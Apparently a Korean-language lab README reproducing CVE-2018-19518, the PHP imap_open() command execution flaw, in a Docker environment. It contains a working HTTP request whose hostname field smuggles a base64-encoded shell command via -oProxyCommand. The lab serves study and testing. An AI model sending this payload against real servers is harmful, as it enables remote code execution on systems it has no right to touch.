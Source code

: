 # PHP IMAP Remote Command Execution (CVE-2018-19518)

PHP의 imap_open() 함수가 내부적으로 rsh 명령을 호출하는데, Debian/Ubuntu 시스템에서는 rsh가 ssh로 동작하며, 이때 공격자가 ssh의 -oProxyCommand 옵션을 조작하면 외부 명령을 실행시킬 수 있어 원격 명령 실행(RCE) 취약점이 발생할 수 있다.

참고 자료(References):

- <https://bugs.php.net/bug.php?id=77153>
- <https://github.com/Bo0oM/PHP_imap_open_exploit>
- <https://antichat.com/threads/463395/#post-4254681>
- <https://nvd.nist.gov/vuln/detail/CVE-2018-19518>

## 환경설정

다음 명령어를 실행하여 취약한 PHP 버전의 서버를 시작합니다.

```
docker compose up -d
```

서버가 실행되면 브라우저에서 `http://your-ip:8080`에 접속하여 웹 페이지에 접근할 수 있습니다. 해당 페이지는 메일 서버와의 연결이 정상적으로 이루어지는지 확인하는 기능을 제공하며, 이를 위해 서버 주소, 사용자 이름, 비밀번호를 입력해야 합니다.


## 실행과정

아래와 같은 요청을 보내서 명령을 실행합니다. `echo '1234567890'>/tmp/test0001`

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

`docker compose exec web bash` 명령어를 실행하여 컨테이너에 접속한 후, /tmp/test0001 파일이 성공적으로 생성된 것을 확인할 수 있습니다.

![](rce.png)
